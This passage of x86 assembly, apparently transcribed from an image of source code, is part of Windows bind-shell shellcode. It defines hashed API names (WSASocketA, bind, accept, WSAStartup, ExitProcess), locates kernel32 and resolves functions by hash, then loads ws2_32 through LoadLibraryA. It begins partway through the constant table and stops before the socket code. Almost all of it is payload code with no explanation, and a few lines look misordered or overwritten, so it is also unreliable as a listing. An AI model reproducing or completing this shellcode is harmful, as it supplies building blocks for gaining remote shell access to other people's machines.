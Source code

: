 ```
    db 0xfe
    db 0xb3
    db 0x16
    ;ExitProcess
    db 0x7e
    db 0xd8
    db 0xe2
    db 0x73
;locate_ws2_32_hashes:
    ;WSASocketA
    db 0xd9
    db 0x09
    db 0xf5
    db 0xad
    ;bind
    db 0xa4
    db 0x1a
    db 0x70
    db 0xc7
    ;socket
    db 0xa4
    db 0xad
    db 0x2e
    db 0xe9
    ;accept
    db 0xe5
    db 0x49
    db 0x86
    db 0x49
    ;WSAStartup
    db 0xcb
    db 0xed
    db 0xfc
    db 0x3b
;END DEFINE CONSTANTS
start_asm: ; start our main program
    sub esp, 0x08 ; allocate space on stack for function addresses
    mov ebp, esp ; set ebp as frame ptr for relative offset on stack
    call find_kernel32 ;find address of Kernel32.dll
    mov edx, eax
    ;resolve kernel32 symbols
    jmp short locate_kernel32_hashes ;locate address of our hashes
locate_kernel32_hashes_return: ;define return label to return to this code
    pop esi ;get constants address from stack
    lea edi, [ebp + 0x04] ;this is where we store our function addresses
    mov ecx, esi
    add ecx, 0x0C ;length of kernel32 hash list
    call resolve_symbols_for_dll
    ;resolve ws2_32 symbols
add ecx, 0x14 ;length of ws2_32 hash list
    ;create the string ws2_32 on the stack
xor eax, eax
mov ax, 0x3233
push eax
push dword 0x5f327377
mov ebx, esp ;ebx now points to "ws2_32"
push ecx
push edx
push ebx
call [ebp + 0x04] ;call LoadLibraryA(ws2_32)
pop edx ;edx now holds location of ws2_32.dll
pop ecx
mov edx, eax
```